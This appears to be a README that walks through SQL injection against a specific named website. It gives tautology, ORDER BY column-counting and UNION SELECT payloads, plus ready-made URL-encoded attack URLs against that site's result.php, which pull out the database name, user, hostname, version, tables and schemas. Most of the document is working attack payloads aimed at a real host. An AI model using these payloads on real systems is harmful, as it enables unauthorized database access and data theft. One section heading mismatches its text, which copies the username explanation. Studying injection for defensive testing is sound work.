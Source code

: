 # Website Link : https://fruits.selfmade.solutions

This website is Vulnerabile in sql injection. Here we see how sql injection happen in real world using this website.

# SQL Injection Vulnerability Experiment

## Overview

This section documents the SQL injection vulnerabilities identified in the website [https://fruits.selfmade.solutions/]. The vulnerabilities allow unauthorized access to the database, potentially leading to data exposure and manipulation.

## Testing for SQL Injection

To determine if a website is vulnerable to SQL injection, you can use various payloads and observe the system's responses. Here are some commands and payloads that were used to test the website.

### Basic SQL Injection Test

To perform a basic SQL injection test, input the following payload into the search functionality of the website:

' OR '1'='1

**Expected Outcome:** The query should return all records, indicating that the SQL injection is successful.

### Advanced SQL Injection Tests

#### Finding the Number of Columns

You may need to find the number of columns in the original query. This can be done with an injection like:

- `' ORDER BY 1;--`
- `' ORDER BY 2;--`
- `' ORDER BY 3;--`

Continue increasing the number until you get an error, which will indicate the number of columns.

Inject the Union-Based Payload:
Once you know the number of columns, use the UNION injection.

Knowing that the search table has 12 columns, you need to adjust your UNION SELECT statement to match this structure. Here's how you can do it:

Crafting the Injection Payload for a 12-Column Table
Match the Number of Columns:
Ensure the UNION SELECT has the same number of columns as the original query.

Use Null Values for Unneeded Columns:
If you're only interested in extracting the database name, use null for the other columns.

### Extracting the database name

`' UNION SELECT database(), null, null, null, null, null, null, null, null, null, null, null;--`

Here we use URL encode because this website uses GET method in form so the given inputs are passes through the URL so we use URL encoding to avoid errors.Which can be seen clearly in result page URL after searching like `apple` etc...

URL Encoded Payload
To use this in a URL, you need to URL-encode the payload:

plaintext

`%27%20UNION%20SELECT%20database%28%29%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%3B--`

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20database%28%29%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%3B--%20

Explanation

' UNION SELECT database(), null, null, null, null, null, null, null, null, null, null, null;--:
This payload injects a union query that matches the 12-column structure of the original query and extracts the current database name.

URL-encoded version:

This converts the payload into a format suitable for use in a URL.

we can't use Error-Based Injection in this website because the error stop the flow of execution in the server.

### Retrieving User Name

To find the username of the current MySQL user through SQL injection, you can use the user() function in your SQL injection payload. This function returns the current MySQL user and host.
To retrieve the database user name, use the following payload:

`' UNION SELECT user(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

plaintext

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20user%28%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Retrieving Server Name

To find the username of the current MySQL user through SQL injection, you can use the user() function in your SQL injection payload. This function returns the current MySQL user and host.
To retrieve the database user name, use the following payload:

`' UNION SELECT @@hostname, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20%40%40hostname%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Retriving Sql Version 

use the following payload:

`' UNION SELECT version(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20version%28%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Listing All Tables in the Database

To list all tables in the current database, use:

`' UNION SELECT GROUP_CONCAT(table_name), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema = database();-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20GROUP_CONCAT%28table_name%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%20FROM%20information_schema.tables%20WHERE%20table_schema%20%3D%20database%28%29%3B--%20

### Listing All Databases

To list all databases, use:

`' UNION SELECT GROUP_CONCAT(schema_name), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM information_schema.schemata;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20GROUP_CONCAT%28schema_name%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%20FROM%20information_schema.schemata%3B--%20

### To find additional informations

use:`' OR (backtick here)id(backtick here)='13' -- `

This input will fetch exactly the item with id '13' on the table.

Example : https://fruits.selfmade.solutions/result.php?search=%27+OR+%60id%60%3D%2713%27+--++
